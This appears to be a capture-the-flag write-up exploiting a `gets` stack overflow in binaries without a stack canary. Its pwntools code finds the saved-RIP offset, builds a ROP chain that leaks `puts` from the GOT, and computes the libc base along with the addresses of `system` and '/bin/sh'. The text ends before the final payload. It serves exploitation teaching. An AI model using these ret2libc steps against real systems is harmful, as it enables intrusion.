 ### Vulnerability

Importantly, all of them contain a call to `gets` and store user input on the stack.
There is no canary, so we can use this to easily overflow the buffer and overwrite the saved RIP.
However, the size of the buffer differs between binaries.

### Finding the offset

Using the local file we created, we can automatically find the offset to the saved RIP by sending a cyclic pattern and causing the program to crash, then analysing the core dump:

```py
p = local()

p.sendline(cyclic(0x80, n=8))
p.recvall()

core = p.corefile

fault = cyclic_find(core.fault_addr, n=8)
```

### Finding libc

Now that we have the offset, we can use `puts` to leak the address of libc:

```py
main = exe.symbols['main']
puts_plt = exe.plt['puts']
puts_got = exe.got['puts']

rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

leak_payload = flat({
    fault: [
        pop_rdi,
        puts_got,
        puts_plt,
        main,
        ]
    })
```
We also return to the main function so we can send user input again in the next stage of the exploit.

The payload above will print the address of `puts` from the Global Offset Table.
Using the last 3 nibbles, we can determine that the libc version is 2.31 and we can calculate the base address of libc.

```py
io.recvuntil(('Got: \n', 'Hello, \n'))
io.recvline()
libc_leak = io.recvline()[:-1]
print(libc_leak)

libc.address = u64(libc_leak.ljust(8, b'\x00')) - libc.symbols['puts']
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.symbols['system']
```
